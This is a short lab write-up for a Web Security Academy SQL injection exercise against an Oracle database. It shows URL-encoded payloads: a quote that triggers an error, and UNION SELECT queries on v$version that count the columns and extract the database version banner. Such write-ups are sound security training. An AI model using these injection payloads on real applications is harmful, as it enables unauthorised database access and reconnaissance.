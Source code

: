 # Lab: SQL injection attack, querying the database type and version on Oracle

URL: https://0aca004604a48f5a8173c1e400cb00ac.web-security-academy.net/

## Sitemap:

URL: https://0aca004604a48f5a8173c1e400cb00ac.web-security-academy.net/

URL: https://0aca004604a48f5a8173c1e400cb00ac.web-security-academy.net/filter?category=Gifts

## Exploitation:

### Getting 500:

URL: https://0aca004604a48f5a8173c1e400cb00ac.web-security-academy.net/filter?category=Gifts'

![](./Images/expl0.png)

### Getting the number of fields:

URL: `https://0aca004604a48f5a8173c1e400cb00ac.web-security-academy.net/filter?category='+UNION+SELECT+NULL,NULL+from+v$version--+-`

![](./Images/expl1.png)

### Getting the version:

```
https://www.beekeeperstudio.io/blog/how-to-check-oracle-version-and-edition
```

URL: `https://0aca004604a48f5a8173c1e400cb00ac.web-security-academy.net/filter?category='+UNION+SELECT+BANNER,NULL+from+v$version--+-`

![](./Images/expl2.png)
